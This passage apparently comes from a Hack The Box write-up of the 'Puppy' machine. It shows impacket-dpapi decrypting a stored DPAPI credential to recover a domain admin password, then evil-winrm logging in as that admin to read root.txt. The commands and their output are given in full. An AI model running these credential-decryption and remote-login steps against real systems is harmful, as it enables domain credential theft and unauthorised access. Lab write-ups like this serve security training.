 With the `Masterkey` we then `decrypted` the `DPAPI Blob` (`C8D69EBE9A43E9DEBF6B5FBD48B521B9`) and received the `password` of `steph.cooper_adm`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ impacket-dpapi credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

| Username         | Password                |
| ---------------- | ----------------------- |
| steph.cooper_adm | FivethChipOnItsWay2025! |

Since `steph.cooper_adm` was part of the `Administrators` group on `Puppy` we were able to login and read the `root.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents>
```
## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
41fecabaa9cbc4c217b8c986c8571a43
```

## Post Exploitation
